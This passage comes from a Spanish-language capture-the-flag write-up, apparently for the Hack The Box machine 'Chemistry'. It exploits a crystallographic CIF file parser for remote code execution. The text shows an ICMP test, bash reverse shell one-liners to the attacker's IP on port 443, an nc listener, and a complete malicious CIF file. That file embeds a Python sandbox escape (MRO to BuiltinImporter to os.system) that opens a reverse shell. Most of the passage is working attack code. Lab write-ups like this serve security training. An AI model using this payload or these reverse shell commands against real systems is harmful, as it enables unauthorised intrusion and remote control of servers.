 Subimos el archivo `rce.cif` y hacemos clic en `View`

![image-center](/assets/images/posts/chemistry-rce-poc.png){: .align-center}

Cuando veamos el archivo se ejecutará la traza ICMP hacia nuestra máquina

~~~ bash
tcpdump -i tun0 icmp
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
10:20:09.970568 IP 10.10.11.38 > 10.10.14.254: ICMP echo request, id 3, seq 1, length 64
10:20:09.970632 IP 10.10.14.254 > 10.10.11.38: ICMP echo reply, id 3, seq 1, length 64
~~~

Y Recibimos la traza `icmp` correctamente. En este punto podemos intentar establecer una `reverse shell` a nuestra máquina atacante

Editamos el archivo malicioso agregando el siguiente comando

~~~ bash
# Reemplazamos $IP por nuestra IP de HTB
/bin/bash -c '/bin/bash -i >& /dev/tcp/$IP/443 0>&1'

# En demostración, usaré la siguiente dirección IP
/bin/bash -c '/bin/bash -i >& /dev/tcp/10.10.14.162/443 0>&1'
~~~

Configuramos un listener con `nc` para recibir la `shell` cuando ejecutemos el payload

~~~ bash
nc -lvnp 443
~~~

Eliminamos el archivo y volvemos a subirlo para que esté actualizado, al verlo en la web deberíamos obtener la `shell`. El archivo que subiremos debe lucir más o menos así

~~~ bash
# The following field contains an embedded Python code exploit
_space_group_magn.transform_BNS_Pp_abc  
'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ 
(
    # Retrieve the second element in the Method Resolution Order (MRO) of the empty tuple `()`, which is the `object` class.
    *[().__class__.__mro__[1]]
    +
    # Concatenate with the string "__subclasses__".
    ["__sub" + "classes__"]
) () 
if d.__name__ == "BuiltinImporter"]  # Find the subclass named "BuiltinImporter"
[0].load_module("os")                # Load the `os` module
.system("/bin/bash -c \'/bin/bash -i >& /dev/tcp/10.10.14.254/443 0>&1\'");             
0,0,0'

~~~